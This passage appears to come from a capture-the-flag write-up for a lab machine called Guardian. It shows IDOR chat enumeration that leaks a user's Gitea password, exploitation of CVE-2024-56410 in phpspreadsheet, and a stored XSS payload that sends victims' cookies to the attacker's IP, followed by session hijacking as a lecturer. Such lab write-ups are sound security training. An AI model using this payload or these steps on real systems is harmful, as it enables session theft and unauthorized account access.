 From selecting other users, we would be able to identify the unique ID. 

<img width="250" height="480" alt="image" src="https://github.com/user-attachments/assets/f1ad1dbf-984d-4ded-85f4-94e70d746ace" />

Then we will get this: 

```url
http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
```

<img width="1451" height="524" alt="image" src="https://github.com/user-attachments/assets/d0a722f2-34cd-49f9-b92d-09f54b6ea888" />

This should be jamil's creds for gitea with email = **``jamil.enockson@guardian.htb``** & pass = **``DHsNnk3V503``**

<img width="1718" height="573" alt="image" src="https://github.com/user-attachments/assets/ad924126-ffda-40dc-8ae0-de560db1ceda" />

Authenticated. And these are all the source code pushed for both **portal.guardian.htb** and **guardian.htb**. Things turned from **black** to **white**.

<img width="1327" height="517" alt="image" src="https://github.com/user-attachments/assets/25175c30-b05c-44bf-82b3-5136fabd8641" />

## CVE-2024-56410

Look for **``phpspreadsheet:3.7.0``** known vulnerabilities gave us **[this](https://github.com/advisories/GHSA-wv23-996v-q229)**.

So with this vulnerability, we would actually can embed xss in the properties. But how do we use those? Here's the situation, 

Student actually required to submit an assignment with **``.docx``**/**``.xlsx``** file type. And lecturers would required to **review the assignment**.

<img width="1712" height="845" alt="image" src="https://github.com/user-attachments/assets/c374f814-e9e0-424f-956e-0e73c54bb11d" />

So this should be Stored XSS that could lead use to steal lecturers cookies. I used **[TreeGrid](https://www.treegrid.com/FSheet)** to generate the exploit.

Payload used:
```
<img src=x onerror=this.src='http://10.10.14.113:5432?cookie='+document.cookie>
```

### Authenticated as Lecturers

<img width="768" height="388" alt="image" src="https://github.com/user-attachments/assets/8efae4a6-dfb4-48d7-ab09-dc837d7f829f" />

<img width="1702" height="838" alt="image" src="https://github.com/user-attachments/assets/dbf03670-6aa3-4bbb-af33-a8611ec34e88" />

Change the session cookies with the one we stole, and refresh

<img width="868" height="534" alt="image" src="https://github.com/user-attachments/assets/6c7cc448-35c6-4f5d-9fa5-2cad146a6449" />

we are in as **Lecturers**:
